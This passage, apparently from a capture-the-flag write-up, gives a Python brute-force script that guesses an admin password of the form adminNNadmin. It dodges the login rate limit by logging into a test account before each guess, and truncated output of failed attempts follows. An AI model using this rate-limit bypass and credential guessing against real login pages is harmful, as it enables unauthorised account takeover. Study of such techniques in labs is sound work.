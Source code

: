 ```python
    'username': 'test',
    'password': 'test',
    'submit': 'Submit'
}

# Admin fuzz template
def admin_creds(passwd: str):
    return {
        'username': 'Admin',
        'password': passwd,
        'submit': 'Submit'
    }

def main():
    session = requests.Session()
    session.headers.update(HEADERS)

    # Iterate through admin00admin … admin99admin
    for x, y in product(range(10), repeat=2):
        trypass = f"admin{x}{y}admin"
        print(f"[+] Trying {trypass}…", end=" ")

        # 1) Reset the rate‐limit by logging in as your test user
        session.post(URL, data=DUMMY_CREDS, allow_redirects=True)

        # 2) Immediately try the admin login
        resp = session.post(URL, data=admin_creds(trypass), allow_redirects=True)

        body = resp.text

        # Check for failure messages
        if "Please enter valid login details" in body or "Too many failed" in body:
            print("✗")
        else:
            print("✅  SUCCESS!")
            print(f"    → admin password is: {trypass}")
            return

    print("[-] Exhausted all guesses.")

if __name__ == "__main__":
    main()

```

The script allows us to bypass the restriction by doing a `POST` request to our test account to prevent the limit-rate, we also use `requests.Session()` to use the cookie from our test session in order to avoid the limit-rate, once we run the script, we get this:

```python
python3 exploit.py
[+] Trying admin00admin… ✗
[+] Trying admin01admin… ✗
[+] Trying admin02admin… ✗
[+] Trying admin03admin… ✗
[+] Trying admin04admin… ✗
[+] Trying admin05admin… ✗
[+] Trying admin06admin… ✗
[+] Trying admin07admin… ✗
[+] Trying admin08admin… ✗
[+] Trying admin09admin… ✗
[+] Trying admin10admin… ✗
[+] Trying admin11admin… ✗
[+] Trying admin12admin… ✗
```